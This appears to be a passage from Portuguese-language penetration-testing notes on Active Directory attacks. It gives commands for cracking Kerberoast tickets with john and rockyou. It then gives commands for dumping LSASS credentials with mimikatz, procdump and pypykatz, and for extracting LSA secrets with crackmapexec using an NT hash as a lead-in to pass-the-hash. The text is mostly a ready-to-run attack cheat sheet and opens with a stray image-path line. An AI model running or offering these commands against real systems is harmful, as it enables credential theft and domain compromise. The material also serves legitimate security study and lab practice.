 ```
python kirbi2john.py /path/file.kirbi > kirbi.john
john --wordlist=/usr/share/rockyou.txt kirbi.john
```
ou

    python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~dominio.com-dominio.com.kirbi

### Referência em vídeo

![type:video](https://youtube.com/embed/dZKelLeyEzQ)

[Introduçao ao kerberoast](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=0s)  
[Configuração do ambiente](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=55s)  
[Kerberoasting com Rubeus no Windows](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=82s)  
[Encaminhamento de porta para chegar no Domain Controller pelo Kali Linux (port forwarding)](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=260s)  
[Kerberoasting com Impacket no Kali Linux](https://www.youtube.com/watch?v=dZKelLeyEzQ&t=500s)  

## lsass dump

Esse ponto é importante, porque nos dará condições de fazer o ataque de pass-the-hash! O objetivo aqui é obter os hashes de senha dos usuários e informar esses hashes por meio dos comandos para conseguir se autenticar com um determinado procotolo, por exemplo. As possibilidades de extração de hashes são os seguintes...

mimikatz

    privilege::debug
    sekurlsa::logonPasswords
    lsadump::lsa /patch

procdump

    get-process lsass
    .\procdump -accepteula -ma 572 out.dmp
    #ou
    .\pd.exe -accepteula -ma lsass.exe lsass_dump
    #Then parse it with mimikatz
    mimikatz.exe
    sekurlsa::minidump out.dmp
    sekurlsa::logonpasswords
    #remotelly
    pypykatz lsa minidump lsass_dump.dmp

TaskManager

![qownnotes-media-jjlIpZ](../../media/qownnotes-media-jjlIpZ.png)

Crackmapexec

    crackmapexec smb 192.168.175.202 -u Administrator -H "<nt_hash>" --lsa

## Pass the hash
